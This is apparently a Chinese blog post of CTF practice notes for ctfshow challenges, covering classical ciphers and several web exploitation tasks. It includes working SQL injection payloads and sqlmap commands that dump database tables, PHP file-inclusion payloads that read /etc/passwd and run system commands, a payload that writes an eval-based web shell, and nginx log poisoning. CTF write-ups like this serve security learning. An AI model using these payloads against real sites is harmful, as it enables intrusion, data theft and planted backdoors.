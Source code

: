 ```yaml
---
layout:     post
title:      2021-08-09-ctfshow做题笔记
subtitle:   2021-08-09-ctfshow做题笔记
date:       2021-8-9
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - 笔记
    - ctf
---
```


**作者：鸿鹄（阳阳）**

## crypto
#### crypto签到-14
这些题目包含了常用的密码学
- rot密码
- 凯撒密码
- jsfuck、表情密码（均可直接在控制台运行出来）
- OoK加密
- brainfuck
  * https://www.splitbrain.org/services/ook
- [rsa算法](https://baike.sogou.com/v453178.htm?fromTitle=rsa)   
  * https://mp.weixin.qq.com/s?src=11&timestamp=1628757653&ver=3247&signature=rQMa*8AVCpkLz3zO51g4PQnvqRrUmMNHxGK2dGg00-NV4J9naXyDWYcd5s05PJmu6uCDkFTw3j7GZHj8-FGPRmdLvf4xfcLwz7ZtULSqaLD4ToQ-MAnT5as8rZOXFwgx&new=1
- Rabbit加密
- serpent加密
  * http://serpent.online-domain-tools.com/
- Quoted-printable解码
  * http://web.chacuo.net/charsetquotedprintable/
- md5（32位）
- 埃特巴什码


## web

#### web 签到题

1. F12打开控制台,源码注释发现字符串,根据经验进行base64解码即可.[https://base64.us/](https://base64.us/)
2. 也可以view-source

#### web2

- 方法一

简单的sql注入,我们使用万能密码发现注入点在username,并且有回显

[![f1vRnP.png](https://z3.ax1x.com/2021/08/09/f1vRnP.png)](https://imgtu.com/i/f1vRnP)

然后进行常规手工注入即可

```mysql
sql手工注入常用语句：

普通语句：schema_name——数据库名；table_name——表名；column_name——字段名；

查询数据库：select schema_name from information_schema.schemata#

　　　　　　slelect database()#

查询数据库表：select table_name from information_schema.tables where table_schema='数据库名'#

查询字段名：select column_name from infromation_schema.columns where table_name='表名'#

查询字段内容：select * from 表名#
```



```sql
admin' or 1=1 order by 3#	//有回显
admin' or 1=1 order by #	//无回显

admin' or 1=1 union select 1,2,3#	//位置是2

admin' or 1=1 union select 1,database(),3#	//数据库名字是web2

admin' or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#	//表名字为flag,user

admin' or 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="flag"#	// 字段名为flag

admin' or 1=1 union select 1,flag,3 from flag#	//得到flag
```

ctfshow{add81b69-8f21-4e43-b091-105ef61e4a71}

- 方法二

  直接sqlmap跑即可

  1. 把之前抓取的数据复制到sqlmap根目录下test.txt内[![f39XY8.png](https://z3.ax1x.com/2021/08/09/f39XY8.png)](https://imgtu.com/i/f39XY8)

  2. 保存完成后开始跑

      ```
      python sqlmap.py -r test.txt --dbs
      python sqlmap.py -r test.txt -D web2 --tables
      python sqlmap.py -r test.txt -D web2 -T flag --columns
      python sqlmap.py -r test.txt -D web2 -T flag -C flag --dump
      ```

#### web3

 `<?php include($_GET['url']);?>`

文件包含，发现测试`url=/etc/passwd`有回显[![f3ZFRx.png](https://z3.ax1x.com/2021/08/09/f3ZFRx.png)](https://imgtu.com/i/f3ZFRx)

- 方法一

我们利用php伪协议 php://input post提交命令，hackbar不太行，使用bp

<?php system("ls") ?>

<?php system("cat ctf_go_go_go") ?>

ctfshow{ff020599-61ce-47e7-877d-37a36638edd5}

- 方法二

?url=data:*//text/plain,<?php print_r(glob("\*")); ?>*

- 方法三

url=data:text/plain,<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['hack']);?>")?>

然后进行菜刀链接

- 方法四

因为是nginx服务器也可以使用日志包含

#### web4

使用nginx的日志包含

?url=/var/log/nginx/access.log可以打开

然后把一句话写到ua头中

然后进行菜刀链接即可

#### web5

```php
<?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>
```

> **代码审核：**get传参绕过
>
> ctype_alpha ( string $text ) : bool
>
> 做纯字符检测如果在当前语言环境中 text 里的每个字符都是一个字母，那么就返回true，反之则返回false。
>
> 
>
> is_numeric() 函数
>
> 用于检测变量是否为数字或数字字符串。如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE。
>
> 同时php弱类型比较，当比较的双方类型不相同时，会先转化成相同的再进行比较，如果转化之后都是以0e为开头的字符串，则==成立。

取v1=QNKCDZO v2=240610708

## web入门

#### web1







